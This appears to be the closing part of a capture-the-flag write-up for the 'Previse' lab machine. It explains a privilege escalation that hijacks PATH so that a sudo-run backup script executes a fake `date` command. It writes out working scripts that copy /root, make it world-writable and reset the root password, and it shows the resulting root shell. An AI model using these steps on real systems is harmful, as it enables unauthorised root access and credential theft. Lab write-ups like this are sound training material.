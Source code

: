 What happens in our case, is that whenever the script is ran, the `date` command will be looked for inside of our `$PATH` If the command is not found in any of the areas pointed by our $PATH, we would get an error. Usually, the date command is found in `/usr/bin/` but if we were able to modify the location of the `date` command, we could replace the script that is being ran to get the date for the filename, by a script that we write ourselves, that could provide us with the necessary stuff to get root.

Thus, our objective is to substitute the $PATH variable used to search for the `date` command on execution of the `access_backup.sh` script. This can easily be done using something like this:

```bash
m4lwhere@previse:~$ cat solve.sh
#!/bin/bash

PATH=/home/m4lwhere/:$PATH
sudo /opt/scripts/access_backup.sh
```

We then need to create a script, called `date` that we store in the `/home/m4lwhere` directory that will include the necessary command to privesc. Knowing that the `access_backup.sh` is executed as root, we can basically write whatever we want, but something like this would work:

```bash
m4lwhere@previse:~$ cat date
#!/bin/bash
cp -r /root/ /home/m4lwhere/
chmod -R ugo+rwx /home/m4lwhere/root/
```

Finally, upon executing the script, we can see that we have copied the root directory and are able to access the contents of it. We can use the root private key to login to the machine as root, or even change our date command to be able to directly change the password:

```bash
$ cat /home/m4lwhere/date

> #!/bin/bash
echo 'root:root' | sudo chpasswd
```

We can then login to root directly:

```bash
$ su root
Password:

root@previse:~ whoami
root
```

## Final notes:

Overall the box was very interesting and brought a lot of concepts to the hacker. The most difficult part was not falling into the inital rabbit holes that the box creator @m4lwhere put in place during the foothold phase. If I could change a thing about the box, it would be change the User privesc to something less time consuming. Cracking the hash did not take that long for me, but speaking with some other hackers, it took close to half an hour for some.
